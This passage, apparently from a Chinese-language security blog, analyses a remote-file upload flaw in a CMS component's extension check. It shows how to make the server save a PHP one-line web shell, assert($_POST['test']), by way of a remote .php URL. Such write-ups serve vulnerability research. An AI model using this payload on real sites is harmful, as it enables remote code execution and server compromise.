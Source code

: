 上面简单分析了一下代码，逻辑不是很难，主要是我不是很了解这个cms的框架，只能看个大概了。

## 0x04 远程文件任意下载

上面分析了这么多，这个洞到底出现在哪里呢？

其实主要就是未对文件扩展名进行校验，其实他们是有校验方法的，只是没有调用的不是时候：

```php
<?php
  ....
private function _setMediaType() {
		// is this audio, image, or not allowed?
		$media_type = "-1";
		$path_info = pathinfo($this->file_info->name);
		$extension = strtolower($path_info["extension"]);
		for ($i = 0; $i < count($this->mediatypes); $i++) {
			$mimetypes = explode(" ", $this->mediatypes[$i]['extensions']);
			if (in_array($extension, $mimetypes)) {
				$media_type = $i;
			}
		}
		if ($media_type == "-1")
			$this->file_info->error = 6;
		$this->file_info->media_type = $media_type;
		/// print_r($this->file_info);die;
		$mediaTypeName = $this->mediatypes[$media_type]['name'];

		return $mediaTypeName;
	}
	....
?>
```

这里是遍历了白名单扩展名，进行比较……

![上传页面][0x01]

利用上面的过程非常简单，只需要在URL Link中输入一个扩展名为PHP的远程文件，注意，它的代码必须是这样：
```php
<?php
echo '<?php assert($_POST["test"]);?>';
?>
```

因为如果直接保存一句话木马，它还是会被我们的PHP环境解析，当然也可以将PHP的解析去掉 ~ 

![上传页面][0x02]

![上传页面][0x03]

在组件上提交这个URL：

![上传页面][0x04]


[0x01]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x01.png
[0x02]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x02.png
[0x03]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x03.png
[0x04]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x04.png
[0x05]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x05.png